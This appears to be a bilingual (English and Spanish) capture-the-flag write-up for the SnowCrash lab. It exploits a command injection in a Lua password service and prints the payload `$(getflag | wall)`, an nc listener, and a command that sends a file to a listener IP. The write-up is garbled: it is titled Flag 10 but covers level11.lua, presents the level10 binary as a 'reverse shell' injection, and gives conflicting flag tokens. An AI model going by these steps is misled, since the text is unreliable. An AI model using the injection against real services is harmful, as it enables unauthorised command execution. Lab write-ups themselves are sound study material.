 # Flag 10

## Tools Used:

* `ls`
* Netcat (`nc`)
* Lua scripting (code injection)
* Reverse engineering / code reading

## Process:

Upon logging into the `level11` account (actually for **flag10**, the binary is named `level11.lua`), listing the directory shows:

```bash
level11@SnowCrash:~$ ls -la
```

Key file:

```
-rwsr-sr-x 1 flag11 level11 668 Mar 5 2016 level11.lua
```

Inspecting the Lua script reveals it binds to `127.0.0.1:5151` and prompts for a password. It computes a SHA‑1 hash of your input and compares it to a decoy constant. However, it invokes the shell via:

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

This allows **command injection** by embedding shell expansions in the password prompt.

### Exploitation:

1. Connect to the service locally:

   ```bash
   level11@SnowCrash:~$ nc localhost 5151
   Password:
   ```

2. Inject a command such as `$(getflag | wall)`:

   ```
   Password: $(getflag | wall)
   ```

3. This triggers the `getflag` call under the `flag11` privileges and broadcasts the flag to all users:

   ```
   Broadcast Message from flag11@Snow
           (somewhere) at 23:44 ...

   Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

   Erf nope..
   ```

   (The script then continues to reject the password.)

4. To bypass the broadcast approach and retrieve the flag text directly, use a reverse shell technique:

   * On your local machine, start a listener on port 6969:

     ```bash
     nc -lvnp 6969
     ```

   * In another terminal on SnowCrash, run the Lua script again, injecting a reverse shell call. For example, if your listener IP is `192.168.0.4` and you have a harmless `victim.txt`:

     ```bash
     level11@SnowCrash:~$ ./level10 victim.txt 192.168.0.4
     ```

     (Repeat until you receive the desired output.)

   * Once connected, you’ll see:

     ```
     Connection received on 192.168.0.43 60888
     .*( )*.
     woupa2yuojeeaaed06riuj63c
     ```

5. Finally, switch to the `flag10` user and run `getflag` to confirm the real flag:

   ```bash
   flag10@SnowCrash:~$ getflag
   Check flag.Here is your token : feulo4b72j7edeahuete3no7c
   ```

---

# Flag 10

## Herramientas Utilizadas:

* Comando `ls`
* Netcat (`nc`)
* Scripting en Lua (inyección de comandos)
* Ingeniería inversa / lectura de código

## Proceso:

Al iniciar sesión en la cuenta `level11` (para **flag10** el script es `level11.lua`), listar el directorio muestra:

```bash
level11@SnowCrash:~$ ls -la
```

Archivo clave:

```
-rwsr-sr-x 1 flag11 level11 668 Mar 5 2016 level11.lua
```

El script Lua abre un socket en `127.0.0.1:5151`, solicita una contraseña y calcula su hash SHA‑1 con:

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

Esta llamada a `io.popen` permite **inyección de comandos** mediante expansiones de shell en la contraseña.

### Explotación:

1. Conectarse al servicio local:

   ```bash
   level11@SnowCrash:~$ nc localhost 5151
   Password:
   ```

2. Inyectar un comando, por ejemplo `$(getflag | wall)`:

   ```
   Password: $(getflag | wall)
   ```

3. Esto ejecuta `getflag` con privilegios de `flag11` y transmite la flag:

   ```
   Broadcast Message from flag11@Snow
           (somewhere) at 23:44 ...

   Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

   Erf nope..
   ```

4. Para obtener el texto directamente sin depender de `wall`, usar una técnica de shell inverso:

   * En tu máquina local, iniciar un listener en el puerto 6969:

     ```bash
     nc -lvnp 6969
     ```

   * En otra terminal de SnowCrash, volver a ejecutar el script Lua con inyección de reverse shell—por ejemplo, apuntando a tu listener (`192.168.0.4`):

     ```bash
     level11@SnowCrash:~$ ./level10 victim.txt 192.168.0.4
     ```

     (Repetir hasta recibir la salida deseada.)

   * Cuando se conecte, verás:

     ```
     Connection received on 192.168.0.43 60888
     .*( )*.
     woupa2yuojeeaaed06riuj63c
     ```

5. Finalmente, cambiar al usuario `flag10` y ejecutar `getflag` para confirmar la flag real:

   ```bash
   flag10@SnowCrash:~$ getflag
   Check flag.Here is your token : feulo4b72j7edeahuete3no7c
   ```

---

## Scripts Used:

None (injection via `nc` and shell)

## Flag:

```
feulo4b72j7edeahuete3no7c
```

